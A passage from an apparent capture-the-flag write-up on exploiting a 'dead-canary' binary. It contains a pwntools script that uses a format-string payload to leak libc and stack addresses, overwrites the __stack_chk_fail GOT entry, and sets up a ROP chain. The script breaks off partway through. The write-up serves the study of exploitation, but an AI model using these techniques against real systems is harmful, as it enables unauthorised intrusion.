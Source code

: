 This is based on [exploit5.py](exploit5.py), however instead of a middle pass to setup a payload that requires a pivot, `one_gadget` is simply used to get a shell.

> I personally try to avoid using `one_gadget` in favor of portable code, but sometimes 8 bytes is all you get.
> 
> I only tested the first gadget of the three possible options.


### Option 4: Leak stack location and write out ROP chain directly after saved RBP

This uses the stack address leak discussed (but not used) in the first exploit.  However we still need to compute the distance from the leak to the return address so we know where to write our exploit:

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./dead-canary')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64',os='linux')
binary.symbols['main'] = 0x400737

rop = ROP([binary])
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

offset = 6
libcoffset = 41
stackoffset = 43

p = process(binary.path)

# first pass, inf. retries if we blow out canary, leak libc, leak stack
payload  = b'%' + str(libcoffset).encode().rjust(2,b'0') + b'$018p'
payload += b'%' + str(stackoffset).encode().rjust(2,b'0') + b'$018p'
payload += fmtstr_payload(offset+2,{binary.got['__stack_chk_fail']:binary.symbols['main']},numbwritten=2*18)
payload += ((0x118 - 0x10 + 1) - len(payload)) * b'A'
p.sendafter('name: ',payload)
p.recvuntil('Hello ')
_ = p.recv(18)
__libc_start_main = int(_,16) - 231
log.info('__libc_start_main: ' + hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
_ = p.recv(18)
stack = int(_,16)
log.info('stack: ' + hex(stack))

# gdb to pid while waiting for 'name:'
d = process(['gdb',binary.path,'-p',str(p.pid)])
d.sendlineafter('gdb) ','b *0x004007dc') # just before last printf
d.sendlineafter('gdb) ','continue')

p.sendlineafter('name: ','foobar')

# should be at break
d.sendlineafter('gdb) ','p/x $rbp')
_ = d.recvline().strip().split()[-1]
rbp = int(_,16)
```